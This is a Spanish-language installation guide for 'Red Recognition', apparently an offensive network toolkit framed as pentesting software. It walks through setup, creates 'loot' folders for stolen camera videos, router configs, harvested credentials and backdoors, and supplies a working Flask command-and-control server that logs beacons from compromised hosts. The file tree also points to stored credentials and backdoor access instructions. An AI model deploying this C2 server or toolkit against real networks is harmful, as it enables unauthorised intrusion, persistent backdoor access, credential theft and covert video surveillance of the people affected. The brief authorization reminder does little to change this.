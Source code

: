 # Guía de Instalación - Red Recognition

## 🚀 Instalación Rápida (Linux/Kali)

### Método 1: Script Automático

```bash
# Clonar o descargar el proyecto
cd RedRecognition

# Ejecutar script de instalación
sudo bash setup.sh

# Configurar variables
nano config.env

# Ejecutar
sudo python3 main.py
```

### Método 2: Manual

```bash
# 1. Instalar dependencias del sistema
sudo apt-get update
sudo apt-get install -y python3 python3-pip nmap curl dnsutils ffmpeg libopencv-dev

# 2. Instalar dependencias de Python
pip3 install -r requirements.txt

# 3. Copiar configuración
cp config.env.example config.env

# 4. Editar configuración
nano config.env

# 5. Crear directorios
mkdir -p reports loot/stolen_videos loot/router_configs loot/credentials loot/backdoors harvested_files

# 6. Ejecutar
sudo python3 main.py
```

## 📝 Configuración Obligatoria

Edita `config.env` y configura al menos estos valores:

```ini
# IMPORTANTE: Tu servidor C2
C2_SERVER_URL=http://TU_IP:8000

# IMPORTANTE: Tu identificador
C2_IDENTIFIER=TU_NOMBRE_PROYECTO
```

## 🖥️ Servidor C2 Simple

Crea un servidor simple para recibir IPs de backdoors:

```python
# c2_server.py
from flask import Flask, request
from datetime import datetime

app = Flask(__name__)

@app.route('/')
def receive():
    ip = request.args.get('ip', 'unknown')
    timestamp = datetime.now().strftime('%Y-%m-%d %H:%M:%S')
    
    print(f"[{timestamp}] Compromised IP: {ip}")
    
    with open('compromised.log', 'a') as f:
        f.write(f"[{timestamp}] {ip}\n")
    
    return 'OK', 200

if __name__ == '__main__':
    # Instalar primero: pip install flask
    app.run(host='0.0.0.0', port=8000)
```

Ejecutar:
```bash
pip install flask
python3 c2_server.py
```

## 🔍 Verificación de Instalación

```bash
# Verificar Python
python3 --version

# Verificar módulos críticos
python3 -c "import scapy, nmap, requests, paramiko, cv2"

# Si todo está bien, no debería mostrar errores
```

## 🐛 Solución de Problemas

### Error: ModuleNotFoundError

```bash
# Reinstalar dependencias
pip3 install -r requirements.txt --force-reinstall --user
```

### Error: Permission denied

```bash
# Asegúrate de ejecutar con sudo
sudo python3 main.py
```

### Error: OpenCV no funciona

```bash
# Instalar dependencias de OpenCV
sudo apt-get install -y libopencv-dev python3-opencv ffmpeg
pip3 install opencv-python opencv-contrib-python --force-reinstall
```

### Error: nmap no funciona

```bash
# Instalar nmap y python-nmap
sudo apt-get install -y nmap
pip3 install python-nmap --force-reinstall
```

## 📦 Dependencias Completas

### Sistema:
- Python 3.8+
- nmap
- curl
- dnsutils (dig)
- ffmpeg
- libopencv-dev

### Python:
- scapy
- python-nmap
- netifaces
- requests
- pysmb
- paramiko
- fabric
- opencv-python
- opencv-contrib-python
- beautifulsoup4
- lxml
- impacket
- pwntools
- jinja2
- python-dotenv
- colorama
- tqdm

## 🎯 Primera Ejecución

1. **Asegúrate de tener autorización**
2. **Configura config.env**
3. **Ejecuta:**

```bash
sudo python3 main.py
```

4. **Selecciona modo de ejecución**
5. **Revisa informes en:**
   - `reports/INFORME_EJECUTIVO.html` (abrir en navegador)
   - `reports/INFORME_GENERAL_PENTESTING.json` (técnico)

## 📂 Ubicación de Archivos Importantes

```
RedRecognition/
├── config.env                          # TU CONFIGURACIÓN (no subir a git)
├── main.py                             # Ejecutar este archivo
├── reports/
│   └── INFORME_EJECUTIVO.html          # ⭐ ABRIR EN NAVEGADOR
├── loot/
│   ├── stolen_videos/                  # Videos capturados
│   ├── credentials/
│   │   └── credentials_found.json      # ⭐ CREDENCIALES OBTENIDAS
│   └── backdoors/
│       └── access_instructions.txt     # ⭐ COMO ACCEDER A BACKDOORS
```

## ⚠️ Importante

- **NO SUBAS** `config.env` a repositorios públicos
- **GUARDA** las credenciales encontradas de forma segura
- **ELIMINA** los backdoors después de la prueba
- **DOCUMENTA** todo para el cliente

## 🔒 Seguridad

Este archivo contiene configuraciones sensibles:
```
config.env
```

Asegúrate de que:
- Tiene permisos restrictivos: `chmod 600 config.env`
- Está en `.gitignore`
- No se comparte públicamente

## 📞 Soporte

Si encuentras problemas:

1. Verifica que todas las dependencias estén instaladas
2. Asegúrate de tener privilegios de root
3. Revisa los logs en `reports/`
4. Verifica la configuración en `config.env`

---

**¡Listo para pentesting!** 🎯

